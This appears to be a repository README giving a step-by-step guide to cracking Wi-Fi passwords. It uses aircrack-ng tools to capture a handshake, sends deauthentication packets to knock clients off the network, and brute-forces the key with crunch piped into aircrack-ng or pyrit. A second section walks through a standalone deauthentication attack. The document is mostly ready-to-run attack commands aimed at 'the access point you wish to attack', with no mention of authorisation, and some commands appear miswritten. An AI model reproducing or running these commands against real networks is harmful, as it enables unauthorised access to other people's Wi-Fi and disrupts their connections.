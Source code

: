  - Put your wireless adapter into monitor mode so that it can see all traffic broadcast.
>airmon-ng start wlan0

 - List wireless networks within rx range. --band abg means scan both 2.4Ghz and 5Ghz space.
>airodump-ng wlan0mon --band abg 

 - Allow the list to accumulate a names for 2-5 minutes. Then stop the scan.
> CTRL+C

 - Identify the access point you wish to attack. Copy it's channel, and MAC address into following command. Also create a name for the log file. 
>airodump-ng -c <channel> -w <logname> --bssid <mac address> wlan0mon 
 - Wait for "Association successful" message. Open a second terminal so you can still see the first window and run the following command. 
>aireplay-ng -0 0 -a <mac address> wlan0mon

 - Begin guessing the key using CPU only.
>crunch <min key length> <max key length> abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890!@#$%&* | aircrack-ng -b <mac address> -w - <log.cap>

**Example**
>crunch 0 25 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890!@#$%&* | aircrack-ng -b D8:20:43:54:12:21 -w - wifi.cap
**Example

 - Begin guessing the key using CPU and GPU.
>crunch <min key length> <max key length> abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 | pyrit -r <log.cap> -b <mac address> -i - attack_passthrough

**Example**
>crunch 0 25 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 | pyrit -r wifi.cap -b D8:20:43:54:12:21 -i - attack_passthrough
**Example**


Deauthorization attack
=
iwconfig 
*make sure all wireless adapters are connected.
airmon-ng wlan0mon
*Look at all available APs.
airmon-ng --bssid <mac address> -c <channel> wlan0mon
*Select the AP you'd like to target by mac address and set the wireless card to the correct channel.
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
*Send deauth packets as fast as possible.

-0 means deauthentication
1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
-a 00:14:6C:7E:40:80 is the MAC address of the access point
-c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
ath0 is the interface name

